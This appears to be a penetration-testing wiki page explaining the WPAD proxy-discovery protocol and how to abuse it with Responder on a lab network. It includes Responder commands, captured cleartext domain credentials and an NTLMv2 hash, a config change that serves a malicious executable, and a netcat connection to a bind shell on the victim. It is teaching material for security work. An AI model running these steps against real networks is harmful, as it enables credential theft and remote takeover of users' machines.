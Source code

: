 # WPAD Abuse

## WPAD

Organisations allow employees to access the internets through proxy servers to increase performance, ensure security and track traffic.Users who connected to the corporate network need to know proxy server for specific URL without doing configuration. The Web Proxy Auto-Discovery Protocol (WPAD) is a method used by clients to locate the URL of a configuration file using DHCP and/or DNS discovery methods. Once detection and download of the configuration file is complete, it can be executed to determine the proxy for a specified URL.

### How WPAD works <a href="#how-wpad-works" id="how-wpad-works"></a>

The client wants to access the wpad.dat configuration file for proxy configuration. It searches computers named as “wpad” on the local network to find this file. And then following steps are carried out:

1. If the DHCP Server is configured, the client retrieves the wpad.dat file from the DHCP Server (if successful, step 4 is taken)
2. The wpad.corpdomain.com query is sent to the DNS server to find the device that is distributing the Wpad configuration. (If successful, step 4 is taken)
3. Sent LLMNR query for WPAD (if success, go step 4 else proxy can’t be use)
4. Download wpad.dat and use

According to the above sequence, DHCP poisoning attack can be done for the first step. DNS poisoning attack can naturally be performed for the second step. But as I pointed out at the beginning of this article, configured network devices prevent these attacks. When a query is made through the LLMNR, this request will go to every client in the network via broadcast. At this point the attacker sends his wpad.dat file to the clients, acting like a wpad server.

{% hint style="info" %}
The important thing is that WPAD protocol is built in Windows operating systems. This configuration can be seen in the LAN Settings Section of the Internet Explorer browser. With this configuration, Internet Explorer makes a WPAD name resolution query on the whole network.
{% endhint %}

## Abusing WPAD

#### Responder serves a fake WPAD Server and responds to clients’ WPAD name resolution. The client then requests the wpad.dat file from this fake WPAD Server. Responder creates an authentication screen and asks clients to enter the username and password they use in the domain. Naturally, employees write usernames and passwords used in the domain name. Finally, we can see their username and passwords.

&#x20;we serve the fake HTTP Server and wait for clear-text passwords.

```
python Responder.py -I eth0 -wFb
```

And our victim will see the following dialog box and naturally type the username and password.

![](<../../../.gitbook/assets/image (260).png>)

and we can see the clear-text passwords:

```
---
snippet
---
[+] Listening for events...
[*] [NBT-NS] Poisoned answer sent to 10.7.7.30 for name GOOGLE.COM (service: Workstation/Redirector)
[*] [NBT-NS] Poisoned answer sent to 10.7.7.30 for name WWW.GOOGLE.COM (service: Workstation/Redirector)
[HTTP] Basic Client : 10.7.7.30
[HTTP] Basic Username : PENTESTLAB\roland
[HTTP] Basic Password : secr3tPassw0rd123!
[*] [LLMNR] Poisoned answer sent to 10.7.7.30 for name respproxysrv
[SMB] NTLMv2-SSP Client : 10.7.7.30
[SMB] NTLMv2-SSP Username : PENTESTLAB\Administrator
[SMB] NTLMv2-SSP Hash : Administrator::PENTESTLAB:1122334455667788:8EBDB974DF3D5F4FB0CA15F1C5068856:01010000000000007894C6BE2C54D201FCEDFDB71BB6F1F20000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000000000000300000B39077D5C9B729062C03BB45B88B0D9EC2672C57115A1FE3E06F77BD79551D8F0A001000000000000000000000000000000000000900220063006900660073002F007200650073007000700072006F00780079007300720076000000000000000000
[SMB] Requested Share : \\RESPPROXYSRV\IPC$
[*] [LLMNR] Poisoned answer sent to 10.7.7.30 for name respproxysrv
[*] Skipping previously captured hash for PENTESTLAB\Administrator
[SMB] Requested Share : \\RESPPROXYSRV\PICTURES
[*] [LLMNR] Poisoned answer sent to 10.7.7.30 for name respproxysrv
[*] Skipping previously captured hash for PENTESTLAB\Administrator
[SMB] Requested Share : \\RESPPROXYSRV\PICTURES
[*] [LLMNR] Poisoned answer sent to 10.7.7.30 for name respproxysrv
[*] Skipping previously captured hash for PENTESTLAB\Administrator
[SMB] Requested Share : \\RESPPROXYSRV\PICTURES
```

## Backdoor with Responder

The responder is not only MiTM attack for the WPAD service. It can force victims to downloadinga malicious files by directing ze to a fake web page. Social engineering can be used to realistically prepare the web page to be used for this attack. However, the Responder itself has a fake redirect page as well. All we need to do is make a few changes to the responder.conf file. We set “Serve-HTML” and “Serve-EXE” parameters to “On”.

```
[HTTP Server]
; Set to On to always serve the custom EXE
Serve-Always = On
; Set to On to replace any requested .exe with the custom EXE
Serve-Exe = On 
; Set to On to serve the custom HTML if the URL does not contain .exe
; Set to Off to inject the 'HTMLToInject' in web pages instead
Serve-Html = On 
```

And we’re starting to run the Responder again.

```
python Responder.py -I eth0 -i 10.7.7.31 -r On -w On
```

Now, when the victim tries to go out to the internet, ze will only see the following page. And by chance, **the victim clicks on the Proxy Client connection and Bind downloads the CMD Shell, so we can connect to the victim’s 140 connection point with netcat.**

![](<../../../.gitbook/assets/image (258).png>)



```
nc 10.7.7.30 140 -vv
```

